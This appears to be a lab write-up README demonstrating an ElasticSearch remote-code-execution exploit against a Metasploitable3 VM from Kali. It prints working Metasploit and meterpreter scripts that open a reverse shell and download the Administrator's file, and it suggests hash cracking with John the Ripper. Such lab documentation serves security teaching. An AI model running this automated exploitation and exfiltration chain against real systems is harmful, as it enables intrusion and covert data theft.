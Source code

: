 # Cybersecurity
## Cybersecurity demo - ElasticSearch exploit

### Summary

[Introduction](#Introduction)

### Introduction

This report describes the exploitation of an ElasticSearch [1](#Sources)
vulnerability present on a victim's machine using an attacking machine able to execute the exploit.


Threat model

The threat model entails an attacker already inside the private network of the victim and able to establish a connection to
the victim's machine. As an hypothesis, the attacker is interested in downloading the contents of a file managed by the
victim's machine Administrator; disruption of operation is not paramount in this threat model, as the attacker is envisioned
as trying to acquire proprietary knowledge without alerting the legitimate owner in order to sell it to a potential buyer.


Setup

metasploitable3-workspace_win2k8_1742132564644_45096 [2] Virtual Machine (VM) as the victim's machine.

kali-linux-2024.4-virtualbox-amd64 [3] VM as the attacker's machine.

The attacker's machine is tasked with automatically running a series of scripts containing all the information
necessary to exfiltrate the file from the victim's machine; the attack uses exploit/multi/elasticsearch/script_mvel_rce [4]
to gain access to the victim's machine file system.


Execution

The victim machine is on during the execution of the exploit with user 'vagrant' as the authenticated user.

All files involved in the execution of the exploit are made executable by other processes with chmod +rx <name>.<extension>

The attacker launches the "exfiltration.sh" bash script from the /home/kali directory of the attacker's machine.


# exfiltration.sh

#!/bin/bash

cd ~
msfconsole -q -r ./exfiltration.rc


"exfiltration.sh" is tasked with launching msfconsole with "exfiltration.rc" as the resource file to be loaded at startup.


# exfiltration.rc

use exploit/multi/elasticsearch/script_mvel_rce
set rhosts 10.0.2.15
set AutoRunScript ./meterpreter_exploit.rc
run
exit


"exfiltration.rc" is tasked with feeding msf6 console with the exploit setup and the victim machine private IPv4 address;
it then sets a third file, "meterpreter_exploit.rc" as an automated list of commands to be executed at the establisment of
a reverse TCP shell.


# meterpreter_exploit.rc

cd ..
cd ..
cd Users
cd Administrator
download important.txt


"meterpreter_exploit.rc" contains the instructions to access the Administrator's directory and download the "important.txt"
file.

The attacker can then perform further actions; when satisfied, the connection is closed by entering "quit" in the meterpreter
terminal. Finally, the execution completes with the final "exit" instruction present in "exfiltration.rc".


Results

At the end of execution, the file "important.txt" is successfully downloaded to the attacker's machine inside the
/home/kali directory.


Conclusions

This experiment has proven that a vulnerability allowing for Remote Code Execution (RCE) in textual input is sufficient
to gain control of the victim's machine. 


Further developments

This demo can be further expanded by allowing for a dynamic choice of the victim's machine and the execution of a more powerful
exploit to gain access to the Administrator's hashed password, using an instrument like "John the Ripper" to infere the password
from the hash and gain access to the Administrator's account.


Sources

[1] https://it.wikipedia.org/wiki/Elasticsearch

[2] https://github.com/rapid7/metasploitable3

[3] https://www.kali.org/docs/virtualization/import-premade-virtualbox/

[4] https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/elasticsearch/script_mvel_rce.rb

[5] https://www.openwall.com/john/
